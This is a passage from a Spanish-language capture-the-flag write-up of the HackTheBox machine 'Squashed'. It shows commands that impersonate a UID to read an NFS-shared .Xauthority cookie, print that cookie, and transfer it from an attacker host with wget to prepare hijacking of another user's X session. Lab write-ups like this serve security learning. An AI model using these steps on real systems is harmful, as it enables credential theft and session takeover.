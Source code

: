 Si lo intentamos visualizar, nos enviara un error de permisos.

```
❯ cat .Xauthority
[bat error]: '.Xauthority': Permission denied (os error 13)
```

Por lo tanto, es necesario contar con un usuario que tenga el id 1001 en nuestra máquina de atacante.

```
❯ useradd squashed2
❯ usermod -u 1001 squashed2
❯ ls -la .Xauthority
.rw------- squashed2 k4miyo 57 B Sun Jan 15 17:58:04 2023  .Xauthority
❯ su squashed2
$ bash
┌─[squashed2@k4mipc]─[/mnt/ross]
└──╼ $cat .Xauthority; echo

squashed.htb0MIT-MAGIC-COOKIE-1l xŮ\[ls
┌─[squashed2@k4mipc]─[/mnt/ross]
└──╼ $
```

Ahora es necesario pasar el archivo `.Xauthority` al usuario **alex**, por lo tanto nos montamos un servidor HTTP con python:

```
┌─[squashed2@k4mipc]─[/mnt/ross]
└──╼ $python -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.11.191 - - [16/Jan/2023 21:35:30] "GET /.Xauthority HTTP/1.1" 200 -
```

```
alex@squashed:/home/alex$ wget http://10.10.14.17:8080/.Xauthority
--2023-01-17 03:35:28--  http://10.10.14.17:8080/.Xauthority
Connecting to 10.10.14.17:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 57 [application/octet-stream]
Saving to: '.Xauthority.1'

.Xauthority.1                                  100%[====================================================================================================>]      57  --.-KB/s    in 0.07s   

2023-01-17 03:35:29 (800 B/s) - '.Xauthority.1' saved [57/57]

alex@squashed:/home/alex$
```

Ahora vamos a validar si el usuario **ross** tiene una sesión:

```
alex@squashed:/home/alex$ w
 03:36:28 up 1 day,  3:38,  1 user,  load average: 0.07, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               Sun23   27:38m  3:39   0.04s /usr/libexec/gnome-session-binary --systemd --session=gnome
alex@squashed:/home/alex$
```

